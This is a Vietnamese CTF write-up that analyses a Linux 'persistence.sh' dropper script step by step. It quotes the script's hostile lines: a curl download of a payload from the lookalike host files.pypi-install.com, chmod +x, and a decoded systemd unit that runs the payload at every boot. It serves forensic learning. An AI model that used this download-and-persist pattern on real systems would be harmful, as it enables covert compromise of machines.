

# Challenge Extraterrestrial Persistence

## 1. Mô tả challenge

Challenge cung cấp một script `persistence.sh` và khi thực hiện lệnh 
```cat persistence.sh ```
Nhận được nội dung của file 


---

## 2. Câu hỏi và lời giải

### Command  1

Phần đầu script lấy thông tin môi trường hiện tại:

```bash
n=`whoami`
h=`hostname`
```

Sau đó dùng điều kiện:

```bash
if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi
```

Nếu **cả hai** đều không khớp:

- user khác `pandora`
- và hostname khác `linux_HQ`

thì script sẽ thoát ngay.

Điều này cho thấy script có bước **target check**, nhằm tránh chạy trên sai máy.

---

### Command 2

Script khai báo đường dẫn:

```bash
path='/usr/local/bin/service'
```

Sau đó tải file bằng `curl`:

```bash
curl https://files.pypi-install.com/packages/service -o $path
```

Khi đó payload thật được lưu tại:

```text
/usr/local/bin/service
```

Đây là binary sẽ được gọi về sau bởi `systemd service`.

---

### Command 3

Sau khi tải payload về, script chạy:

```bash
chmod +x $path
```

Lệnh này cấp quyền thực thi cho file vừa tải xuống. Nếu không có bước này, file `/usr/local/bin/service` có thể chưa chạy được như một executable.

---

### Command 4

Script có đoạn:

```bash
echo -e "...base64..." | base64 --decode > /usr/lib/systemd/system/service.service
```

Chuỗi base64 này không phải payload chính, mà được dùng để tạo file:

```text
/usr/lib/systemd/system/service.service
```

Sau khi decode, nội dung của nó là một file `systemd service`:

```ini
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes
ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```

Giải thích chi tiết từng dòng:

After=network.target network-online.target
- Đây là directive thuộc phần [Unit], dùng để nói về thứ tự khởi động.
- Ý nghĩa: service này chỉ nên được start sau khi các target về mạng đã được đưa lên.

[Service]
- Đây là section mô tả cách service sẽ chạy.

Type=oneshot
- "oneshot" nghĩa là service kiểu chạy một lần rồi thoát.

RemainAfterExit=yes
- Mặc định với service kiểu oneshot:
  - khi ExecStart chạy xong và process thoát, service thường bị xem là không còn active nữa.
- Nhưng khi đặt:
  - `RemainAfterExit=yes`
- thì sau khi ExecStart chạy xong, systemd vẫn coi service là đang ở trạng thái "active" dù process đã kết thúc.
- Từ đó khi service bị stop, systemd có thể gọi `ExecStop=/usr/local/bin/service`
  
ExecStart=/usr/local/bin/service
- Đây là lệnh chính systemd sẽ chạy khi service được start, systemd sẽ thực thi `/usr/local/bin/service`

ExecStop=/usr/local/bin/service
- Đây là lệnh systemd sẽ chạy khi service bị stop.

[Install]
- Section này mô tả service sẽ được "gắn" vào đâu khi dùng `systemctl enable`.

WantedBy=multi-user.target
- Giúp service tự chạy lại sau mỗi lần khởi động máy.
- Nếu không có phần `[Install]` hoặc không có `WantedBy=...`, lệnh `enable` sẽ không gắn service vào flow boot theo cách thông thường.


---

## 4. Nhận xét

Flow chuẩn của bài là:

```text
check target -> download payload -> chmod -> create service -> enable persistence
```

Đây là một ví dụ của việc kết hợp giữa **dropper** và **persistence mechanism** trên Linux.
